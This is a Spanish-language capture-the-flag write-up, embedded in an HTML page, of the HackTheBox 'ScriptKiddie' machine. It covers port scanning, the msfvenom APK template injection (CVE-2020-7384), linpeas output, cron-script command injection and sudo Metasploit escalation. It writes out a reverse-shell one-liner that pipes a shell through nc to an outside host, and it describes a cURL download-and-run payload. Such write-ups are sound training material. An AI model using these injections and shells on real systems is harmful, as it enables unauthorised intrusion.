

<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Post - ScriptKiddie</title>
    <link href="https://fonts.googleapis.com/css2?family=Merriweather:wght@400;700&family=Open+Sans:wght@400;600&display=swap" rel="stylesheet">
    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/styles/github.min.css">
    <style>
        body {
            font-family: 'Open Sans', sans-serif;
            max-width: 800px;
            margin: 0 auto;
            padding: 20px;
            color: #fff;
            background-color: #000;
            line-height: 1.6;
        }
        
        h1, h2, h3, h4, h5, h6 {
            font-family: 'Merriweather', serif;
            margin-bottom: 20px;
        }

        img {
            max-width: 100%;
            height: auto;
            margin: 20px 0;
            border-radius: 5px;
            box-shadow: 0 4px 6px rgba(255, 255, 255, 0.1);
        }

        pre {
            background-color: #222;
            padding: 10px;
            overflow-x: auto;
            border-radius: 5px;
        }

        code {
            font-family: 'Courier New', Courier, monospace;
            background-color: #222;
            padding: 2px 4px;
            border-radius: 3px;
        }

        blockquote {
            border-left: 4px solid #ccc;
            margin-left: 0;
            padding-left: 20px;
            font-style: italic;
            color: #ccc;
        }

        a {
            color: #fff;
            text-decoration: underline;
        }
    </style>
</head>
<body>
    <div id="post">
        <!-- Aquí se insertará el contenido del post en formato Markdown -->
    </div>

    <script src="https://cdnjs.cloudflare.com/ajax/libs/showdown/1.9.1/showdown.min.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/highlight.min.js"></script>
    <script>
        // Obtener el contenido del post en formato Markdown (puedes reemplazar esto con tu propia lógica)
        const markdownContent = `
# Máquina "ScrriptKiddie" de HackTheBox

Caracteristicas:

- Linux  
- Fácil 
- Msfvenom Exploitation [CVE-2020-7384] [RCE] 
- Abusing Logs + Cron Job [Command Injection / User Pivoting] 
- Abusing Sudoers Privilege [Msfconsole Privilege Escalation] 

Util en:

- eJPT 
- OSCP (Escalada)

        IP 10.10.10.226

- sudo nmap -sC -sV -p- 10.129.95.150 --min-rate 10000 

<pre>
<code>
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
</code>
</pre>

Esta vez el portal wep está en el puerto 5000 http://10.10.10.226:5000 una página simple en formato de texto que proporciona algunas funciones.



usaremos gobuster usando la lista de palabras raft-small-words.txt de SecLists.

- sudo gobuster  dir  -u http://10.129.95.150:5000/ -w /media/sf_OneDrive/SecLists/Discovery/Web-Content/raft-small-words.txt -o gobuster 

Intentemos buscar subcarpetas comunes ocultas. 

<pre>
<code>
dirb http://10.10.10.226:5000/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sat Feb 13 22:54:50 2021
URL_BASE: http://10.10.10.226:5000/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.226:5000/ ----
                                                                                                                                
-----------------
END_TIME: Sat Feb 13 23:03:50 2021
DOWNLOADED: 4612 - FOUND: 0
</code>
</pre>

la segunda característica expuesta parece usar msfvenom del marco Metasploit , debería ir a exploit-db para verificar, pero tengo un buen servicio en esta página. 
aproveché la funcionalidad searchsploit de la aplicación para descubrir una vulnerabilidad en msfvenom. Bien, volvamos a la realidad, ciertas versiones de msfvenom 
son vulnerables a la inyección de comandos a través de la plantilla APK. Script Kiddie tuvo la amabilidad de brindarnos una función de carga de plantillas.  

utilicé searchsploit con el argumento -m para copiar el exploit a mi directorio de trabajo actual. A continuación, edité el exploit y cambié la carga útil a un comando 
cURL que descarga y ejecuta mi script de shell. 


cargamos el archivo envenenado ponemos nc en escucha

┌──(in7rud3r㉿Mykali)-[~]

└─$ nc -lvp 4444                                                                                           

listening on [any] 4444 ...

/home/kid/html
whoami

kid

la primera bandera es mía. 

pasamos nc a la victima lo lanzamos.

<pre>
<code>
    [...]
====================================( Interesting Files )=====================================
[+] SUID - Check easy privesc, exploits and write perms                                                                                          
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                                                    
-rwsr-sr-x 1 daemon daemon           55K Nov 12  2018 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)                                         
[...]
-rwsr-xr-x 1 root   root             31K Aug 16  2019 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)
[...]
-rwsr-xr-x 1 root   root             84K May 28  2020 /usr/bin/chfn  --->  SuSE_9.3/10
[...]
-rwxr-sr-x 1 root   incron  103K Mar 22  2020 /usr/bin/incrontab
  --- It looks like /usr/bin/incrontab is executing incrontab and you can impersonate it (strings line: incrontab [<options>] <FILE-TO-IMPORT>)
  --- It looks like /usr/bin/incrontab is executing /dev/null and you can impersonate it (strings line: /dev/null)
  --- It looks like /usr/bin/incrontab is executing /dev/stdin and you can impersonate it (strings line: /dev/stdin)
  --- It looks like /usr/bin/incrontab is executing /etc/incron.d and you can impersonate it (strings line: /etc/incron.d)
  --- It looks like /usr/bin/incrontab is executing /var/run and you can impersonate it (strings line: /var/run)
  --- It looks like /usr/bin/incrontab is executing /var/spool/incron and you can impersonate it (strings line: /var/spool/incron)
  --- It looks like /usr/bin/incrontab is executing chmod and you can impersonate it (strings line: chmod)
  --- It looks like /usr/bin/incrontab is executing chown and you can impersonate it (strings line: chown)
  --- It looks like /usr/bin/incrontab is executing edit and you can impersonate it (strings line: edit)
  --- It looks like /usr/bin/incrontab is executing editor and you can impersonate it (strings line: editor finished with error)
  --- It looks like /usr/bin/incrontab is executing incrond and you can impersonate it (strings line: incrond)
  --- It looks like /usr/bin/incrontab is executing incrontab and you can impersonate it (strings line: incrontab - inotify cron table manipulator)
  --- It looks like /usr/bin/incrontab is executing incrontab and you can impersonate it (strings line: incrontab 0.5.12)
  --- It looks like /usr/bin/incrontab is executing unlink and you can impersonate it (strings line: unlink)
  --- It looks like /usr/bin/incrontab is executing watch and you can impersonate it (strings line: watch collision detected and recovery failed)
  --- Trying to execute /usr/bin/incrontab with strace in order to look for hijackable libraries...
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libstdc++.so.6", O_RDONLY|O_CLOEXEC) = 3
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libgcc_s.so.1", O_RDONLY|O_CLOEXEC) = 3
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libm.so.6", O_RDONLY|O_CLOEXEC) = 3
[...]
[+] Backup files
-rw-r--r-- 1 root root 2743 Jul 31  2020 /etc/apt/sources.list.curtin.old                                                                        
-rw-r--r-- 1 root root 1403 Jan 28 12:37 /usr/lib/python3/dist-packages/sos/report/plugins/__pycache__/ovirt_engine_backup.cpython-38.pyc
-rw-r--r-- 1 root root 1775 Aug 17 21:41 /usr/lib/python3/dist-packages/sos/report/plugins/ovirt_engine_backup.py
-rw-r--r-- 1 root root 8169 Jan 18 16:31 /usr/lib/modules/5.4.0-65-generic/kernel/drivers/net/team/team_mode_activebackup.ko
-rw-r--r-- 1 root root 8737 Jan 18 16:31 /usr/lib/modules/5.4.0-65-generic/kernel/drivers/power/supply/wm831x_backup.ko
-rw-r--r-- 1 root root 44048 Jun 22  2020 /usr/lib/open-vm-tools/plugins/vmsvc/libvmbackup.so
-rwxr-xr-x 1 root root 1086 Nov 25  2019 /usr/src/linux-headers-5.4.0-65/tools/testing/selftests/net/tcp_fastopen_backup_key.sh
-rw-r--r-- 1 root root 237775 Jan 18 16:31 /usr/src/linux-headers-5.4.0-65-generic/.config.old
-rw-r--r-- 1 root root 0 Jan 18 16:31 /usr/src/linux-headers-5.4.0-65-generic/include/config/wm831x/backup.h
-rw-r--r-- 1 root root 0 Jan 18 16:31 /usr/src/linux-headers-5.4.0-65-generic/include/config/net/team/mode/activebackup.h
-rw-r--r-- 1 root root 11886 Jan 28 12:38 /usr/share/info/dir.old
-rw-r--r-- 1 root root 2756 Feb 13  2020 /usr/share/man/man8/vgcfgbackup.8.gz
-rw-r--r-- 1 root root 7867 Jul 16  1996 /usr/share/doc/telnet/README.old.gz
-rw-r--r-- 1 root root 392817 Feb  9  2020 /usr/share/doc/manpages/Changes.old.gz
-rw-r--r-- 1 root root 7251 Mar 23  2020 /usr/share/nmap/scripts/http-config-backup.nse
-rw-r--r-- 1 root root 5484 Mar 23  2020 /usr/share/nmap/scripts/http-backup-finder.nse
-rwxr-xr-x 1 root root 226 Feb 17  2020 /usr/share/byobu/desktop/byobu.desktop.old
-rw-r--r-- 1 root root 338 Oct 14 17:55 /usr/share/ri/2.7.0/system/Bundler/EnvironmentPreserver/backup-i.ri
-rw-r--r-- 1 root root 338 Jan  5 11:25 /var/lib/gems/2.7.0/doc/bundler-2.2.4/ri/Bundler/EnvironmentPreserver/backup-i.ri
-rw-r--r-- 1 root root 413 Jan  5 11:25 /var/lib/gems/2.7.0/doc/bundler-2.2.4/ri/Bundler/EnvironmentPreserver/replace_with_backup-i.ri
-rwxr-xr-x 1 root root 640 Jan  5 11:27 /var/lib/gems/2.7.0/gems/nessus_rest-0.1.6/examples/backup-reports.rb
-rw-r--r-- 1 root root 1054 Jan  5 11:27 /var/lib/gems/2.7.0/gems/sqlite3-1.3.13/test/test_backup.rb
-rw-r--r-- 1 root root 320 Jan  5 11:27 /var/lib/gems/2.7.0/gems/sqlite3-1.3.13/ext/sqlite3/backup.h
-rw-r--r-- 1 root root 4474 Jan  5 11:27 /var/lib/gems/2.7.0/gems/sqlite3-1.3.13/ext/sqlite3/backup.c
-rw-r--r-- 1 root root 37128 Jan  5 11:27 /var/lib/gems/2.7.0/gems/sqlite3-1.3.13/ext/sqlite3/backup.o
-rw-r--r-- 1 root root 3196 Jan  5 11:27 /var/lib/gems/2.7.0/gems/nexpose-7.2.1/lib/nexpose/scheduled_backup.rb
-rw-rw-r-- 1 root root 4029 Oct  1 16:52 /opt/metasploit-framework-6.0.9/lib/rex/parser/apple_backup_manifestdb.rb
-rw-rw-r-- 1 root root 1359 Oct  1 16:52 /opt/metasploit-framework-6.0.9/documentation/modules/auxiliary/scanner/http/backup_file.md
-rw-rw-r-- 1 root root 2313 Oct  1 16:52 /opt/metasploit-framework-6.0.9/documentation/modules/exploit/windows/misc/ahsay_backup_fileupload.md
-rw-rw-r-- 1 root root 4229 Oct  1 16:52 /opt/metasploit-framework-6.0.9/documentation/modules/exploit/multi/http/wp_db_backup_rce.md
-rw-rw-r-- 1 root root 13409 Oct  1 16:52 /opt/metasploit-framework-6.0.9/documentation/modules/post/multi/gather/ubiquiti_unifi_backup.md
-rw-rw-r-- 1 root root 2527 Oct  1 16:52 /opt/metasploit-framework-6.0.9/modules/auxiliary/scanner/http/wp_simple_backup_file_read.rb
-rw-rw-r-- 1 root root 2290 Oct  1 16:52 /opt/metasploit-framework-6.0.9/modules/auxiliary/scanner/http/backup_file.rb
-rw-rw-r-- 1 root root 13267 Oct  1 16:52 /opt/metasploit-framework-6.0.9/modules/exploits/windows/misc/ahsay_backup_fileupload.rb
-rw-rw-r-- 1 root root 4087 Oct  1 16:52 /opt/metasploit-framework-6.0.9/modules/exploits/windows/browser/symantec_backupexec_pvcalendar.rb
-rw-rw-r-- 1 root root 4600 Oct  1 16:52 /opt/metasploit-framework-6.0.9/modules/exploits/windows/browser/samsung_neti_wiewer_backuptoavi_bof.rb
-rw-rw-r-- 1 root root 2067 Oct  1 16:52 /opt/metasploit-framework-6.0.9/modules/exploits/multi/misc/veritas_netbackup_cmdexec.rb
-rw-rw-r-- 1 root root 6652 Oct  1 16:52 /opt/metasploit-framework-6.0.9/modules/exploits/multi/http/wp_db_backup_rce.rb
-rw-rw-r-- 1 root root 7214 Oct  1 16:52 /opt/metasploit-framework-6.0.9/modules/post/multi/gather/ubiquiti_unifi_backup.rb
-rw-rw-r-- 1 root root 7694 Oct  1 16:52 /opt/metasploit-framework-6.0.9/modules/post/multi/gather/apple_ios_backup.rb
[...]
[+] Finding possible password in config files
 /etc/debconf.conf                                                                                                                                               
passwords.
password
passwords.
passwords
password
passwords.dat
passwords and one for everything else.
passwords
password is really
Passwd: secret
 /etc/nsswitch.conf
passwd:         files systemd
 /etc/sysctl.d/10-ptrace.conf
credentials that exist in memory (re-using existing SSH connections,
 /etc/adduser.conf
passwd
 /etc/overlayroot.conf
password is randomly generated
password will be stored for recovery in
passwd
password,mkfs=0
PASSWORD="foobar"
PASSWORD" |
PASSWORD" |
PASSWORD HERE IN THIS CLEARTEXT CONFIGURATION
passwords are more secure, but you won't be able to
passwords are generated by calculating the sha512sum
[...]
</code>
</pre>

encontré otro usuario en la carpeta de inicio. con una carpeta y un archivo que parece ser el script que ejecuta el escaneo nmap para el portal 

<pre>
<code>
    $ cat scanlosers.sh
cat scanlosers.sh
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/$ {ip}.nmap $ {ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
</code>
</pre>

crea un archivo en 

- -rw-rw-r-- 1 kid pwn 0 Feb 14 11:06 /home/kid/logs/hackers

tampoco  podemos ejecutar el script. parece ser vulnerable a una especie de inyección de comando. 

- 1 2 ;echo 'my test' >> finalfile.txt #

El resto de la cadena es el comando real que crea un archivo llamado " finalfile.txt ". Este es un exploit de prueba que pruebo en mi máquina para asegurarme de que funciona

- $ echo "1 2 ;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.239 4445 >/tmp/f #" >> hackers

en este punto ya accedimos al nuevo user. Hacemos sudo -l
y Puedo ejecutar el framework Metasploit como root accedemos y buscamos la flag

Algunos de los writeups en esta página, pueden tener contenido de otras páginas o tener muy pocas imágenes, esto 
debido a que en algunas de las máquinas que realice, no tome los apuntes o no tome capturas de pantalla, así que he decidido buscar varios writeups
y agregar lo que esté mejor explicado en cada uno para plasmarlo aquí, también si encuentra faltas de ortografía 
o cualquier error, Puedes contactarme a mi correo.

lerioxirit@proton.me


        `;
        
        // Convertir Markdown a HTML
        const converter = new showdown.Converter();
        const html = converter.makeHtml(markdownContent);

        // Insertar el HTML generado en el elemento con id "post"
        document.getElementById('post').innerHTML = html;

        // Resaltar la sintaxis del código
        hljs.initHighlightingOnLoad();
    </script>
</body>
</html>